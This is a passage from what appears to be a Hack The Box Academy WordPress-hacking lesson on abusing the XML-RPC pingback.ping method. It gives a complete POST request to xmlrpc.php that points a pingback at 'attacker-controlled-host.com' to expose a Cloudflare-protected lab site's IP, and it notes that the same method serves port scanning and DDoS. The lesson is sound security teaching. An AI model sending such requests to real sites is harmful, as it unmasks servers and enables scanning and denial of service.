 ```shell
```

Inside the list of available methods above, [pingback.ping](https://codex.wordpress.org/XML-RPC_Pingback_API) is included. `pingback.ping` allows for XML-RPC pingbacks. According to WordPress, _a [pingback](https://wordpress.com/support/comments/pingbacks/) is a special type of comment that’s created when you link to another blog post, as long as the other blog is set to accept pingbacks._

Unfortunately, if pingbacks are available, they can facilitate:

- IP Disclosure - An attacker can call the `pingback.ping` method on a WordPress instance behind Cloudflare to identify its public IP. The pingback should point to an attacker-controlled host (such as a VPS) accessible by the WordPress instance.
- Cross-Site Port Attack (XSPA) - An attacker can call the `pingback.ping` method on a WordPress instance against itself (or other internal hosts) on different ports. Open ports or internal hosts can be identified by looking for response time differences or response differences.
- Distributed Denial of Service Attack (DDoS) - An attacker can call the `pingback.ping` method on numerous WordPress instances against a single target.

Find below how an IP Disclosure attack could be mounted if `xmlrpc.php` is enabled and the `pingback.ping` method is available. XSPA and DDoS attacks can be mounted similarly.

Suppose that the WordPress instance residing in _http://blog.inlanefreight.com_ is protected by Cloudflare. As we already identified, it also has `xmlrpc.php` enabled, and the `pingback.ping` method is available.

As soon as the below request is sent, the attacker-controlled host will receive a request (pingback) originating from _http://blog.inlanefreight.com_, verifying the pingback and exposing _http://blog.inlanefreight.com_'s public IP address.

```http
--> POST /xmlrpc.php HTTP/1.1
Host: blog.inlanefreight.com
Connection: keep-alive
Content-Length: 293

<methodCall>
<methodName>pingback.ping</methodName>
<params>
<param>
<value><string>http://attacker-controlled-host.com/</string></value>
</param>
<param>
<value><string>https://blog.inlanefreight.com/2015/10/what-is-cybersecurity/</string></value>
</param>
</params>
</methodCall>

```

If you have access to our [Hacking Wordpress](https://academy.hackthebox.com/module/details/17) module, please note that you won't be able to exploit the availability of the `pingback.ping` method against the related section's target, due to egress restrictions.


# Information Disclosure (with a twist of SQLi)
